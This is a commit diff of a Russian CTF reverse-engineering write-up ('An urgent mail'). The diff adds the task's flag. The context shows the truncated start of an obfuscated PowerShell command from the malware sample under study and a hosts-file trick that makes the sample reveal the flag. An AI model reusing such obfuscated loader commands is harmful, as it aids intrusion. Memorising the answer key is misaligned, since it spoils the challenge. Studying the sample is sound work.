

Before and after one commit to DevelopersOOIB/RDG-CTF-Task-Based-2023, a Markdown page: Reverse/An urgent mail/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/Reverse/An urgent mail/README.md
+++ b/Reverse/An urgent mail/README.md
@@ -41,3 +41,6 @@ powershell.exe -nop -c "[string]'$global:progressPreference='+[char]0x27+'silent
 1) В пункте 4 вместо скачивания строки мы можем прописать в **hosts** какой-нибудь **"живой" IP адрес** для домена **eytqrlibfsmeconx.xyz**, а **IP-адрес** нашей машины выставить в **192.168.3.78**.
 
 После этого программа должна сама выдать нам флаг.
+
+# Flag
+RDG{RatBatRuleZZ}
```
